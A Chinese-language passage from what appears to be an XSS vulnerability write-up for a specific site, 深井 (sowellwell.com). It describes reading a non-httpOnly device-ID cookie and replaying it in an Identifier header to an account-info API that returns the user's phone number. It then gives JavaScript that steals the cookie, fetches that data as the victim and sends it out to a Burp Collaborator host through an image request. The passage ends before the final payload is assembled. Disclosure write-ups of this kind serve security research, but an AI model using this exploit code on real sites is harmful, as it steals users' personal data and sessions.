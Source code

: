     这样我们可以将复杂的利用写入xss.js，并且上传到自己的https服务器上，请将payload中的`https://my.domain.com/xss.js`换成自己的服务器地址。

2. 利用脚本构造

    观察到用户在登录时，深井会通过get请求来获取当前登录用户的信息`https://sowellwell.com/w/v1/account/info`，信息中包含用户的手机号码。
    ![phone](./images/phone.png)
    其中，Header中包含`Identifier`字段，需要此字段才能完成合法请求。而该字段等于cookie的`jssdk_deviceid`字段，该字段不受httpOnly保护，因此可以直接通过cookie获取。那么我们可以在利用脚本中，代替用户发送该url，从而获取登录并且浏览到xss页面的用户信息。构造利用脚本如下：

        // burpsuite collaborator url
        const api_burp = 'https://e9op59j1geov80qd4hiuakntnktch3fr4.oastify.com'

        // 获取cookie信息
        const getCookieValue = (name) => (
            document.cookie.match('(^|;)\\s*' + name + '\\s*=\\s*([^;]+)')?.pop() || ''
        )

        // 构造发送请求
        const myFetch = async (url, token) => {
            let data = await fetch(url, {
                method: 'GET',
                headers: {
                    'Identifier': token,
                },
            })
            let res = await data.json();
            return res
        }

        // 通过img src来向burpsuite collaborator url外送敏感新信息
        const justSend = async url => {
            var Img = new Image
            Img.src = url
        }

